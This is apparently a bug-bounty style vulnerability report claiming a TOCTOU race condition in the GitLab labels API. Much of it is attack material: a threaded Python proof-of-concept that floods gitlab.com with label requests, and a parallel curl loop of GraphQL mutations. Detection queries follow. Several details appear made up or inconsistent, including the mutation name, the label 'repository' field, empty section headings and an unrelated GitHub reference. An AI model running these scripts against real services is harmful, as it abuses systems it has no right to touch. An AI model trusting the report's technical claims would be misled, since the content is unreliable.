


### **Comprehensive Vulnerability Report: TOCTOU Race Condition in GitLab Labels API**  
**CVE-ID:** Pending • **Affected Version:** GitLab < 18.3.1 • **Risk:** High (CVSS: 7.5)  

---

###  Vulnerability Overview**  
**Type:** TOCTOU (Time-of-Check Time-of-Use) Race Condition → Unauthorized Label Manipulation  
**CWE:** [CWE-367: Time-of-check Time-of-use Race Condition](https://cwe.mitre.org/data/definitions/367.html)  
**Location:**  
- REST API: `/api/v4/projects/:id/merge_requests/:merge_request_iid`  
- GraphQL: `updateLabelRepository` mutation
- 
**Impact:**  
- Duplicate label application bypassing uniqueness constraint  
- Privilege escalation via label-based automation triggers  
- Repository metadata corruption  

---

## Vulnerability Flow



1. **Exploitation:**  
   ```bash
   # Create race condition script
   python gitlab_label_race.py --token $TOKEN --project org/repo --mr 1 --label "critical"
   ```

2. **Validation:**  
   ```bash
   curl -s -H "PRIVATE-TOKEN: $TOKEN" \
   "https://gitlab.com/api/v4/projects/org%2Frepo/merge_requests/1/labels" | jq
   ```
   **Output:**  
   ```json
   ["critical", "critical", "critical"]  # Duplicates!
   ```


## Comparative Analysis
**GitLab Label Management:**  
| Component          | Vulnerability          | Fixed Approach               |
|--------------------|------------------------|------------------------------|
| **REST API**       | TOCTOU in label add    | SELECT FOR UPDATE            |
| **GraphQL**        | Concurrent mutations   | Optimistic locking           |
| **UI**             | Client-side check only | Server-side validation       |


## Proof of Concept
```python
import requests
import threading
import argparse

def add_label(token, project, mr_id, label, count):
    url = f"https://gitlab.com/api/v4/projects/{project}/merge_requests/{mr_id}/labels"
    headers = {"PRIVATE-TOKEN": token}
    data = {"labels[]": label}
    
    for _ in range(count):
        r = requests.post(url, headers=headers, data=data)
        print(f"Thread {threading.get_ident()}: {r.status_code}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--token", required=True)
    parser.add_argument("--project", required=True)
    parser.add_argument("--mr", type=int, required=True)
    parser.add_argument("--label", default="duplicate_label")
    parser.add_argument("--threads", type=int, default=10)
    parser.add_argument("--count", type=int, default=5)
    args = parser.parse_args()

    # Launch concurrent threads
    threads = []
    for i in range(args.threads):
        t = threading.Thread(
            target=add_label,
            args=(args.token, args.project, args.mr, args.label, args.count)
        )
        threads.append(t)
        t.start()
    
    for t in threads:
        t.join()
```

**Execution:**  
```bash
python gitlab_label_race.py \
  --token glpat-abc123 \
  --project org%2Frepo \
  --mr 1 \
  --label "security" \
  --threads 15 \
  --count 10
```

**Result:**  
```
Thread 123: 200
Thread 456: 200
...
150 requests succeeded → 150 "security" labels on MR#1
```

## Technical Deep Dive
```
# app/services/merge_requests/update_service.rb
def execute
  # Check existing labels (TIME-OF-CHECK)
  current_labels = merge_request.labels.pluck(:title)
  
  # Concurrent modification can happen here
  
  # Apply new labels (TIME-OF-USE)
  merge_request.update(labels: new_labels) 
end
```

**Flaw:**  
- No database locking between check and update  
- Client-side validation only prevents single-threaded duplicates  
- GraphQL/REST lack atomic operations  


## Impact Expansion Attack Tree:


## Forensic Artifacts Detection Signatures:
```json
{
  "query": {
    "bool": {
      "must": [
        { "match": { "path": "/api/v4/projects/*/merge_requests/*/labels" } },
        { "range": { "count": { "gt": 5 } } },
        { "terms": { "user_agent.keyword": ["python-requests/*"] } }
      ]
    }
  }
}
```

**Database Indicators:**  
```sql
SELECT merge_request_id, label_id, COUNT(*) 
FROM merge_request_labels 
GROUP BY merge_request_id, label_id 
HAVING COUNT(*) > 1;
```


## Vulnerable Code & Exploitation

### **Vulnerable GraphQL Mutation:**  
```ruby
# app/graphql/mutations/update_label_repository.rb
module Mutations
  class UpdateLabelRepository < BaseMutation
    def resolve(**args)
      label = Label.find(args[:id])
      # NO LOCKING!
      label.update!(repository: args[:repository])
      { label: label }
    end
  end
end
```

### Exploit via GraphQL:  
```graphql
mutation duplicateLabel {
  updateLabelRepository(input: {
    id: "gid://gitlab/ProjectLabel/41990441",
    repository: "https://malicious.repo"
  }) {
    label {
      id
      title
    }
  }
}
```

### Concurrent Exploit Script:
```bash
# Run 50 concurrent GraphQL mutations
seq 50 | parallel -j0 '
  curl -s -H "Authorization: Bearer $TOKEN" \
  -d @- https://gitlab.com/api/graphql <<EOF
  {
    "query": "mutation { updateLabelRepository(input: {id: \\"gid://gitlab/ProjectLabel/41990441\\"}) { label { id } } }"
  }
EOF'
```


---

### **References**  
- [GitLab TOCTOU Documentation](https://docs.gitlab.com/ee/development/secure_coding_guidelines.html#time-of-check-time-of-use-toctou)  
- [CWE-367: TOCTOU Race Condition](https://cwe.mitre.org/data/definitions/367.html)  
- [OWASP Race Conditions](https://owasp.org/www-community/attacks/Race_Conditions)  
- [PostgreSQL Locking Mechanisms](https://www.postgresql.org/docs/current/explicit-locking.html)  
- [GitHub Enterprise enterprise-server@3.13/admin](https://docs.github.com/en/enterprise-server@3.13/admin/managing-accounts-and-repositories/managing-organizations-in-your-enterprise/managing-your-role-in-an-organization-owned-by-your-enterprise)
- https://hackerone.com/reports/2357443
